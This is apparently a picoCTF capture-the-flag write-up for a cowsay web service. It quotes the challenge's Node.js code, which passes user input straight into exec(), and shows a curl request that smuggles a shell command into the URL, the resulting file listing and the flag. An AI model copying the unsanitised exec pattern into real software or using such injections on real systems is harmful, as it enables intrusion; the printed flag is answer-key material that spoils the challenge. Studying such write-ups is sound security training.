 # Solution

From the downloaded `index.js` file. We see that the user input is passed into a child process and executed.

```js
// Append user string to an executable command
exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    // Redirect output from stdout to screen
    res.type('txt').send(stdout).end();
});
```

The output from /usr/games/cowsay is displayed to our screen. Let's check which directory we're in.

```bash
$ curl 'https://caas.mars.picoctf.net/cowsay/echo%20$PWD'

< echo /app >
 -----------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
```

Print out the list of files in our current location
```
 _________
< cd /app >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Print out flag
```
 _________
< cd /app >
 ---------
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```